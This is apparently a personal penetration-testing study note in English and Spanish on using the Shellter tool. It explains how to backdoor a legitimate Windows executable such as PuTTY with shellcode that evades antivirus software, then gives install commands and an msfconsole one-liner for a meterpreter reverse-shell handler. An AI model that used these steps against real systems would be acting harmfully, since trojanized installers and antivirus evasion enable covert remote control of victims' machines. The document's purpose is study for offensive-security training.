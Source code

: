 ## DESCRIPTION

Now that we have learned how to manually evade an AV via PowerShell, let's explore how to automate AV evasion payloads.

Shellter1 is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software. It uses a number of novel and advanced techniques to backdoor a valid and non-malicious executable file with a malicious shellcode payload.

While the details of the techniques Shellter uses are beyond the scope of this Module, it essentially performs a thorough analysis of the target PE file and the execution paths. It then determines where it can inject our shellcode without relying on traditional injection techniques that are easily caught by AV engines. Those include changing of PE file section permissions, creating new sections, etc.

Finally, Shellter attempts to use the existing PE Import Address Table (IAT)2 entries to locate functions that will be used for the memory allocation, transfer, and execution of our payload.

INSTALL

```
sudo apt install shellter
sudo apt install wine
dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```
#### Mas información
* https://github.com/ParrotSec/shellter


## EXPLOITATION

### OPTION 1: Auto mode

1. Seleccionamos el modo automático
![[Pasted image 20230510120705.png]]

2. Descargamos una aplicación donde vamos a encapsular el payload.
Algunas recomendadas son Spotify, Putty, etc.
![[Pasted image 20230510121321.png]]

3. Seleccionamos nuestra aplicación

![[Pasted image 20230510121514.png]]

4. Seleccionamos el modo Stealth y el modo de payload automaticos (se puede añadir uno custom)
![[Pasted image 20230510123251.png]]

5. Abrimos una reverse shell, en este caso de meterpreter

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```

Ejemplo Windows 11 con meterpreter:

![[Pasted image 20230510124219.png]]



## MACHINES

* Hack The Box: 
*
